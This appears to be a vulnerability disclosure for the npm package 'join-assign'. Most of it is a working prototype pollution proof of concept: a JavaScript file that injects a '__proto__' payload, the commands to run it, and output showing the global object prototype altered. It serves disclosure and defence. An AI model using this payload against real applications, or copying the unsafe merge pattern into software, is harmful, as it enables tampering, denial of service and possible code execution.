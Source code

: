 # Description

`join-assign` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { assign } = require('join-assign')

console.log(`Before: ${{}.polluted}`)
assign({}, JSON.parse('{"__proto__": {"polluted": true}}'))
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i join-assign # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

